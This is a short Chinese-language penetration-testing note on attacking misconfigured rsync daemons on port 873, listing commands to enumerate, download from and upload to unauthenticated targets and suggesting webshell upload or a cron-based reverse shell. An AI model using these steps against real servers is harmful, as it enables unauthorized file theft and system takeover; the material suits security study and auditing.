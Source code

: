 # Rsync 873端口

## 关于

<a-checkbox checked>Rsync为Linux下实现远程同步功能的软件，能同步更新两处计算机的文件及目录。</a-checkbox></br>

<a-checkbox checked>在同步文件时，可以保持源文件的权限、时间、软硬链接等附加信息。常被用于在内网进行源代码的分发及同步更新，因此使用人群多为开发人员；而开发人员安全意识薄弱、安全技能欠缺往往是导致rsync出现相关漏洞的根源。</a-checkbox></br>

<a-checkbox checked>rsync默认配置文件为/etc/rsyncd.conf，常驻模式启动命令rsync –daemon，启动成功后默认监听于TCP端口873，可通过rsync-daemon及ssh两种方式进行认证</a-checkbox></br>

## 攻击方法

与Rsync相关的几条命令

```bash
rsync ip::                        # 遍历可以同步的目录
rsync ip::backup                  # 遍历backup目录下可以同步的文件
rsync -avz ip::文件路径 本地路径     # 下载目录下文件
rsync -avz 本地文件路径 ip::目标路径  # 上传文件
```

## 连接目标

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629296857028-f953fc8d-8b00-4ec7-93ac-89d22938faba.png)

## 文件下载

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629296903271-be04441e-f7be-4bb8-b1e6-c6e2fb5556f9.png)

## 文件上传

<a-alert type="success" message="在权限高，且已知Web路径的情况下，可上传Webshell文件获取权限" description="" showIcon>
</a-alert>
<br/>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629297071728-8c831f5b-1de2-4a94-8809-964689e8b419.png)



在权限高，也可以写入定时文件反弹 Shell